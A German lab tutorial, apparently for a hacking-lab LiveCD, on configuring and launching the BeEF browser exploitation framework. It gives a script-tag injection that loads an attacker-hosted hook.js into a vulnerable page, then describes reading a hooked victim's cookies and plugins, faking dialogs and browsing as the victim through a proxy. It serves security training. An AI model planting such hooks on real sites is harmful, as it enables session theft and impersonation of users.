




# BeeF (Browser Exploitation Framework)
## Konfiguration Beef Login Credentials
Um Beef auf der Hacking-Lab LiveCD zu starten, muss man zuerst die Login Credentials anpassen. Ansonsten startet das Tool nicht. 
```
atom /etc/beef-xss/config.yaml
```


ORIGINAL Credentials:
```
    credentials:
        user:   "beef"
        passwd: "beef"
```

NEUE Credentials:
```
    credentials:
        user:   "admin"
        passwd: "compass"
```


## Starten von Beef in einem "root terminal"

```
cd /usr/share/beef-xss
./beef
```

Startup Notification beim Starten von beef
```
╰─$ ./beef 
[12:58:03][*] Browser Exploitation Framework (BeEF) 0.4.7.1-alpha
[12:58:03]    |   Twit: @beefproject
[12:58:03]    |   Site: https://beefproject.com
[12:58:03]    |   Blog: http://blog.beefproject.com
[12:58:03]    |_  Wiki: https://github.com/beefproject/beef/wiki
[12:58:03][*] Project Creator: Wade Alcorn (@WadeAlcorn)
[12:58:04][*] BeEF is loading. Wait a few seconds...
[12:58:07][*] 8 extensions enabled:
[12:58:07]    |   Proxy
[12:58:07]    |   Requester
[12:58:07]    |   Admin UI
[12:58:07]    |   XSSRays
[12:58:07]    |   Network
[12:58:07]    |   Social Engineering
[12:58:07]    |   Events
[12:58:07]    |_  Demos
[12:58:07][*] 300 modules enabled.
[12:58:07][*] 6 network interfaces were detected.
[12:58:07][*] running on network interface: 127.0.0.1
[12:58:07]    |   Hook URL: http://127.0.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 192.168.134.131
[12:58:07]    |   Hook URL: http://192.168.134.131:3000/hook.js
[12:58:07]    |_  UI URL:   http://192.168.134.131:3000/ui/panel
[12:58:07][*] running on network interface: 172.17.0.1
[12:58:07]    |   Hook URL: http://172.17.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.17.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.19.0.1
[12:58:07]    |   Hook URL: http://172.19.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.19.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.18.0.1
[12:58:07]    |   Hook URL: http://172.18.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.18.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 10.201.2.110
[12:58:07]    |   Hook URL: http://10.201.2.110:3000/hook.js
[12:58:07]    |_  UI URL:   http://10.201.2.110:3000/ui/panel
[12:58:07][*] RESTful API key: a49efd6e94d79221cbad78dc07553e0fd37ca35e
[12:58:07][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[12:58:07]    |_  Run geoipupdate to install
[12:58:07][*] HTTP Proxy: http://127.0.0.1:6789
```

## Attack & Exploit URLs
Die IP Adresse ändert sich natürlich, je nachdem auf welchem Gerät man `beef` startet. Bitte in den Befehlen unten Eure eigene IP Adresse verwenden. 

* Injection `<script src="http://10.201.2.110:3000/hook.js"></script>`
* Admin URL `http://10.201.2.110:3000/ui/panel`
* Proxy URL `http://127.0.0.1:6789`

## Injection
Hook bei der verwundbaren Seite einfügen



## Admin Panel
Beim Angreifer erscheint das Opfer in der Admin Console



* Cookies auslesen
* Browser Plug-ins auslesen
* Dialoge faken

## Beef Proxy 
Man kann einen Browser derart konfigurieren, dass dieser den Beef Proxy verwendet. Damit surft der Angreifer quasi gleich wie das Opfer. 



Danach kann der Angreifer so surfen wie es das Opfer sieht. 




